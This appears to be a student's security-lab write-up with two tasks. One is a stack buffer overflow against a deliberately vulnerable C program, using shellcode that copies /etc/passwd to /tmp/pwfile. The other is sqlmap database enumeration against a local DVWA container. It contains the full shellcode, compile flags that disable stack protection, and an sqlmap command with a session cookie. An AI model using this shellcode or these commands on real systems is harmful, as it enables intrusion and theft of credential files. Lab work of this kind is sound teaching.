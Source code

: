 # Lab #1,22110009, Le Cong Bao, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  #### step 1: Create a vulnerable c program
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano vulnerable.c 
  ```
  ![image](https://github.com/user-attachments/assets/227b7284-5d61-466c-a766-f56c8ba2579b)

  #### step 2: Compile the vulnerable c program
  ```bash
     gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
  ```
  
  - -fno-stack-protector: Disables stack protection, making the program vulnerable to buffer overflow attacks.
  - -z execstack: Allows execution of code on the stack, enabling exploitation through injected shellcode.
  #### step 3: Build an Assemply payload
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano shellcode.asm
  ```
  ![image](https://github.com/user-attachments/assets/4f8b0e7d-a38a-4098-bab7-025926764e0b)

  #### step 4: Compile the Asssemply code
  ```bash
     nasm -f elf32 -o shellcode.o shellcode.asm
     ld -m elf_i386 -o shellcode shellcode.o
  ```
  #### step 5: Find the address of the shellcode
  ```bash
     gdb ./vulnerable
  ```
  - in `gdb` set a breakpoint at `main ` run the program with a dummy argument to obtain the address of your shellcode.
  ```bash
     break main
     run $(python -c "print('A'*72)")
     p &buffer
  ```
    
**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1. Pull DVMA Docker image
   ```bash
      docker pull vulnerables/web-dvwa
      docker run -d -p 80:80 vulnerables/web-dvwa
   ```
   ![image](https://github.com/user-attachments/assets/c89ed07c-5616-4614-8b55-8f4a27d30e8a)
2. Access DVWA with a web browser and go to: http://localhost Log in with the default user
   ![image](https://github.com/user-attachments/assets/c4c3bba3-24e9-4a2b-a9c3-660a20aeed61)
   User: admin
   Password: password
   ![2](https://github.com/user-attachments/assets/d606eac2-2999-4370-b19c-b959cda33fff)
3. Install SQLMap in WSL
   ```bash
      wsl
      sudo apt install sqlmap
   ```
4. Find the website url to attack
   ![image](https://github.com/user-attachments/assets/aaad26f0-4f4e-49f8-8910-bc69b19387f2)
   enter random to return http://localhost/vulnerabilities/sqli/?id=1
5. Get information from the database
   ```bash
      sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=ve43k50u0t2qcfnfdhqkmga390; security=medium " --data="id=1&Submit=Submit" --dbs
   ```
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
